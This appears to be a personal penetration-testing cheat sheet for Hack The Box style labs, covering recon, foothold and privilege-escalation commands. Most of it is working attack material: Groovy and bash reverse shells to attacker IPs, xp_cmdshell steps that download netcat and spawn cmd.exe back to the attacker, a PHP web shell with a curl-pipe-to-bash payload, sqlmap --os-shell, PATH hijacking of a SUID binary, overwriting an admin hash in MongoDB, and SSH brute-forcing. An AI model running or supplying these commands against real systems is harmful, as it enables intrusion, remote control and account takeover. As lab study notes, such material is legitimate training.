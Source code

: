 # Linux

## Recon enumeration

#### SMBClient

```
smbclient -N -L \\\\{TARGET_IP}\\
smbclient -L 10.129.209.18 -U Administrator
smbclient \\\\10.129.209.18\C$ -U Administrator
smbmap -H 10.129.201.119
```

## Foothold

## Privilege escalation

## Services

#### Groovy

```
Groovy rs
String host="10.10.14.23";
int port=8001;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

https://gtfobins.github.io/

```
└──╼ $feroxbuster -u http://10.129.93.13 -x php,html
gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -u 10.129.93.13
gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -u 10.129.93.13 -x php

nmap -v -sV -p- -oA devops_full 10.10.10.91
searchsploit --nmap -v devops_full.xml
msf auxiliary(scanner/ssh/ssh_enumusers) > run
```


# Linux

## Recon enumeration

```
sudo nmap -sV 10.129.227.248
nmap -sV -sC -p- 10.129.158.230 -oN scan.txt

dirb http://10.129.92.107 -w /usr/share/wordlists/dirb/common.txt
dirb http://10.129.92.107/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -X .sh,.pl,.php

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u 10.129.93.13
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.158.230 -x php
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u 10.129.158.230
```

/cgi-bin => shellshock

## Foothold

## Privilege escalation

### pe enumeration

```
id
sudo -l
ss -tln // skip service names
ss -tl 
ss -tlpn

Util:
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts

python3 -m http.server 8000

```


## Services

#### lxc

```
sudo apt install snapd
sudo snap install distrobuilder --classic
```

```

#Impacket
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt

cd impacket/examples/
python3 mssqlclient.py -h

SELECT is_srvrolemember('sysadmin');

EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.78/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.78 443"
[xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)
10.10.14.9 443"
wget http://10.10.14.78:8000/winPEASx64.exe -outfile winPEASx64.exe
https://github.com/int0x33/nc.exe/blob/master/nc64.exe

```

```
FTP:
ftp anonymous@10.129.241.156
anonymous:anonymous

Postgresql:
psql -U christine -h localhost -p 1234
\l \list 
\c \connect ${database}
\dt ##relations
SELECT * FROM flag;

Bruteforce:
hydra -L usernames.txt -p 'funnel123#!#' {target_IP} ssh

```


```
Cloud:
AWS:
apt install awscli
aws configure
aws --endpoint=http://s3.thetoppers.htb s3 ls
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 cp shell. s3://thetoppers.htb
```


#Reverse shell:
echo '<?php system($_GET["cmd"]); ?>' > shell.php
http://thetoppers.htb/shell.php?cmd=id

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.116/4444 0>&1

nc -nvlp 1337

http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.23:8000/rs.sh|bash
python3 -m http.server 8000
python3 -c 'import pty;pty.spawn("/bin/bash")'

#tunneling 
local port forwarding
ssh -L 1234:localhost:5432 christine@{target_IP}

dynamic port forwarding
/etc/proxychains4.conf
ssh -D 1234 christine@{target_IP}
1. Ensure that strict_chain is not commented out; ( dynamic_chain and random_chain should be
commented out)
2. At the very bottom of the file, under [ProxyList] , we specify the socks5 (or socks4 ) host and port
that we used for our tunnel
<SNIP>
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 127.0.0.1 9050
socks5 127.0.0.1 1234
proxychains psql -U christine -h localhost -p 5432

#Reverse php
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

#tftp
The default configuration file for tftpd-hpa is /etc/default/tftpd-hpa. The default
root directory where files will be stored is /var/lib/tftpboot

curl 'http://{target_IP}/?file=/var/lib/tftpboot/php-reverse-shell.php'


https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

Privilege escalation:
Linux
sudo -l <- try to obtain root
id <- check permissions, additional groups
find / -group bugtracker 2>/dev/null
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker

Commonly noted as SUID (Set owner User ID), the special permission for the user access
level has a single function: A file with SUID always executes as the user who owns the
file, regardless of the user passing the command. If the file owner doesn't have
execute permissions, then use an uppercase S here.
In our case, the binary 'bugtracker' is owned by root & we can execute it as root since
it has SUID set.

/tmp

/bin/sh
chmod +x cat
export PATH=/tmp:$PATH
echo "/bin/sh" > cat

//UNIFI MONGODB
ps aux | grep mongo
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

crete password
mkpasswd -m sha-512 Password1234
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$pgNniKC2xeXtTtRl$KqIpqj6FI8DGb9dXgc7vUCAeGuCWI3rCzKsopTZU5ncfE1F6XjEf.Faq/AecBR7x/ToDPw7bYrVth3kU3WkzS0"}})'

python3 -m http.server 8000

Foothold:
PHP
~~reverse shells
https://github.com/BlackArch/webshells
/usr/share/webshells/
upload file & look for uploads directory
python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data user: 
lookup for a files and try to login as user
/var/www/html/...

cat /etc/passwd <- check users on server
su USER <- relogin

script /dev/null -c bash //spawn shell

ec9b13ca4d6229cd5cc1e09980965bf7
dd6e058e814260bc70e9bbdef2715849
Foothold:
SQL
sqlmap -u 'http://10.129.241.156/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
bash -c "bash -i >& /dev/tcp/10.10.14.116/1234 0>&1"
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
/var/www/data checkout
 sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf


